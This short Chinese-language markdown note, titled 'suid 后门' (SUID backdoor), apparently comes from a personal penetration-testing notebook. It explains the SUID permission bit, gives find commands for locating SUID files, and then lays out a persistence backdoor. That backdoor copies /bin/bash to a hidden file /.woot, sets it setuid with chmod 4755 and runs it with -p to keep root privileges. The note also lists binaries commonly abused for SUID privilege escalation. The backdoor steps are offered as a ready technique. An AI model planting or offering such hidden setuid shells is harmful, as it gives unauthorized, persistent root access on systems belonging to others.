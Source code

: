 ```yaml
---
title: "suid 后门"
id: zhfly3502
---
```


## suid 后门

suid说明：

1.  用户或属主对应的前三位权限的x位上如果有s就表示suid权限。当x位上没有小写x执行权限的时候，suid的权限显示的就是大S。

2.  suid作用是让普通用户可以以root（或其他）的用户角色运行只有root（或其他）账号才能运行的程序或命令，或程序命令对应本来没有权限操作的文件等。

先查找具有suid的文件：

```
find / -perm +4000 -ls
find . -perm /4000
find / -user root -perm -4000 -print 2>/dev/null 
```

将具有suid的复制到指定目录，然后再给权限执行。

```
cp /bin/bash /.woot
chmod 4755 /.woot
/.woot -p 
```

![image](../img/5df5c1c06462c3760d60de9a10182697.png)

列出一些具有suid权限的文件、然后利用一些二进制文件的特性来执行额外的命令。

```
Nmap
Vim
find
Bash
More
Less
Nano
cp 
```

常见的suid提权的程序。

![image](../img/ceb5fda8ef6fd3dc41e5ef21caa7e55d.png)